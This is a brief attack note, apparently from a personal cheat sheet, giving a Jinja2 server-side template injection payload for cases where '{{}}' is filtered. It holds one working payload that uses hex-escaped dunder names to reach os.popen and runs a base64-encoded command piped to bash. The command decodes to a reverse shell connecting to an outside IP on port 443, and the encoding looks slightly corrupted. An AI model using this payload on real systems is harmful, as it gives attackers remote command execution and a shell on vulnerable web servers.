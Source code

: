# ssti

except payloads all the thing

when can't use {{}}

```
{% with a = request["application"]["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"]["\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA JiAvZGV2L3RjcC8xMC4xMC4xNi4xOTMvNDQzIDA JjE= | base64 -d | bash")["read"]() %} a {% endwith %}

```
